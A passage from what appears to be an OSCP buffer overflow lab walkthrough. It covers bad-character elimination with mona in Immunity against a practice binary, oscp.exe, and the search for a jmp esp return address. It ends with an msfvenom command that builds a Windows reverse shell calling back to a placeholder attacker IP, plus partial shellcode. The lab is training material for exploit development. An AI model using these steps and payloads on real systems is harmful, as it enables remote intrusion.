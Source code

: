 Update your exploit.py script and set the payload variable to the string of bad chars the script generates.

Restart oscp.exe in Immunity and run the modified exploit.py script again. Make a note of the address to which the ESP register points and use it in the following mona command:

```
!mona compare -f C:\mona\oscp\bytearray.bin -a <address>
```

A popup window should appear labelled "mona Memory comparison results". If not, use the Window menu to switch to it. The window shows the results of the comparison, indicating any characters that are different in memory to what they are in the generated bytearray.bin file.

Not all of these might be badchars! Sometimes badchars cause the next byte to get corrupted as well, or even effect the rest of the string.

The first badchar in the list should be the null byte (\x00) since we already removed it from the file. Make a note of any others. Generate a new bytearray in mona, specifying these new badchars along with \x00. Then update the payload variable in your exploit.py script and remove the new badchars as well.

Restart oscp.exe in Immunity and run the modified exploit.py script again. Repeat the badchar comparison until the results status returns "Unmodified". This indicates that no more badchars exist.

### Finding a Jump Point

With the oscp.exe either running or in a crashed state, run the following mona command, making sure to update the -cpb option with all the badchars you identified (including \x00):
```
!mona jmp -r esp -cpb "\x00"
```

This command finds all "jmp esp" (or equivalent) instructions with addresses that don't contain any of the badchars specified. The results should display in the "Log data" window (use the Window menu to switch to it if needed).

Choose an address and update your exploit.py script, setting the "retn" variable to the address, written backwards (since the system is little endian). For example if the address is \x01\x02\x03\x04 in Immunity, write it as \x04\x03\x02\x01 in your exploit.

### Generate Payload
Run the following msfvenom command on Kali, using your Kali VPN IP as the LHOST and updating the -b option with all the badchars you identified (including \x00):

```
msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 EXITFUNC=thread -b "\x00" -f c
```

Copy the generated C code strings and integrate them into your exploit.py script payload variable using the following notation:

```
payload = ("\xfc\xbb\xa1\x8a\x96\xa2\xeb\x0c\x5e\x56\x31\x1e\xad\x01\xc3"
"\x85\xc0\x75\xf7\xc3\xe8\xef\xff\xff\xff\x5d\x62\x14\xa2\x9d"
...
"\xf7\x04\x44\x8d\x88\xf2\x54\xe4\x8d\xbf\xd2\x15\xfc\xd0\xb6"
"\x19\x53\xd0\x92\x19\x53\x2e\x1d")
```
